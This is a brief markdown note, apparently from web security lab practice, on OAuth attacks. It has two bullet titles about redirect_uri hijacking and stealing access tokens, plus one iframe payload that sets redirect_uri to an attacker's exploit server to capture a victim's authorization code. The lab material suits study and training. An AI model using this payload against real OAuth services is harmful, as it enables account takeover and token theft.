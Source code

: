 # OAUTH

- **hijacking via redirect_uri**
- **Stealing OAuth access tokens via an open redirect**

```jsx
<iframe src="https://oauth-0a2b00fd0306e8c3868c1ef302f100bc.oauth-server.net/auth?client_id=f5ajjz3hdwlebpflpzont&redirect_uri=https://exploit-0a57000e0330e8c986ec1f1d016a0040.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```